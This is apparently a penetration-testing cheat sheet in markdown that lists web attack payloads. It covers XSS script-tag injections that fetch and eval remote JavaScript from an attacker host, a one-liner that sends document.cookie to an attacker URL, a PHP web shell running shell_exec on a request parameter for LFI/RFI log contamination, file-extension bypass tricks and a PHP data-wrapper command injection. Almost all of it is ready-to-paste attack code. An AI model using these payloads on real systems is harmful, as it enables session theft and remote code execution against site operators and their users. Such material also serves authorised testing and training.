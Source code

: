 # XSS

### reference: special characters for HTML and javascript
```
< > # used to denote HTML elements 
' " # strings
{ } # javascript function declarations
;   # end of statement
```
---

### php: file extension bypass
```
%00 # null byte in the URL will bypass the file extension in older PHP servers 
?   # ending url with ? will mark anything as part of query string
```
---

### script: XSS with script tag 
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
---

### script: XSS content injection with iframe
```html
<iframe src=<your_url> height="0" weight="0"></iframe>
```
---

### script: XSS cookie exfiltration with javascript
```html
<script>new Image().src="<your_url>/page.html?output="+document.cookie;</script>
```
---

# LFI

### php: LFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# RFI

### php: RFI payload in PHP (can be used as log contamination)
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

# PHP Wrappers

### php: PHP data wrapper example:
```
<vuln_url>/<vuln_path>?<vuln_param>=data:text/plain,<?php echo shell_exec("whoami") ?>

# e.g.: http://10.10.0.2/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>
```
---

